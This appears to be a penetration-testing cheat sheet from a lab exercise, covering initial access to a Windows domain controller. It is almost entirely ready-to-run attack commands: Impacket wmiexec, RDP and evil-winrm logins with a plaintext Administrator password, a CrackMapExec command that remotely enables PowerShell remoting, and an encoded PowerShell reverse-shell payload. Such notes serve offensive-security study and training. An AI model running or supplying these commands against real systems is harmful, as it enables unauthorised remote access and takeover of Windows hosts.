 
## Initial Access
---


### Impacket

> https://vk9-sec.com/impacket-remote-code-execution-rce-on-windows-from-linux/

Connect via 5 exec methods:  **smbexec**, **psexec**, **wmiexec**, **atexec**, **dcomexec**

```bash
wmiexec.py CONTROLLER/Administrator:'P@$$W0rd'@10.10.125.202 -shell-type powershell
```


### RDP

**With dynamic screen resolution**

```bash
xfreerdp /u:Administrator /p:'P@$$W0rd' /d:CONTROLLER /v:10.10.125.202 /dynamic-resolution +clipboard /cert:ignore
```

**With static screen resolution**

```bash
xfreerdp /u:Administrator /p:'P@$$W0rd' /d:CONTROLLER /v:10.10.125.202 /size:1800x900
```


### Evin-Winrm

Make sure winrm is enabled before connecting with winrm

**Enable winrm**

```bash
cme smb 10.10.70.75 -u Administrator -p 'P@$$W0rd' -X 'Enable-PSRemoting -Force'
```

**Connect**

```bash
evil-winrm -i 10.10.125.202 -u Administrator -p 'P@$$W0rd'
```


### Reverse Shell

Get reverse shell

```bash
┌──(kali㉿kali)-[~/thm]
└─$ cme smb 10.10.125.202 -u Administrator -p 'P@$$W0rd' -x 'powershell -exec bypass -enc CgAkAGMAIAA9A...'
```

Use **rlwrap** to get autocompletes on windows machine
